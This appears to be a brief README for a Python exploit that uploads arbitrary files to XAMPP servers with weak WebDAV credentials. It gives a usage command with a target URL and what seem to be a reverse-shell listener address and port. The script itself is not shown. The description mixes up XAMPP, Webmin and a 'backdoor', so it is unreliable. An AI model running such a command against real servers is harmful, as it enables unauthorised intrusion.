 #  Xampp Webdav arbitrary File upload

```
1.  Xampp Servers with weak WebDav Credentials
```

### Script Usage:
#### Tested on v1.890, but should also work for other webmin versions in which this backdoor is installed.
`python webdav_exploit.py -t http://10.11.1.136/webdav -l 172.16.1.1 -p 4444`

[Instagram](https://www.instagram.com/fkerem.py/)
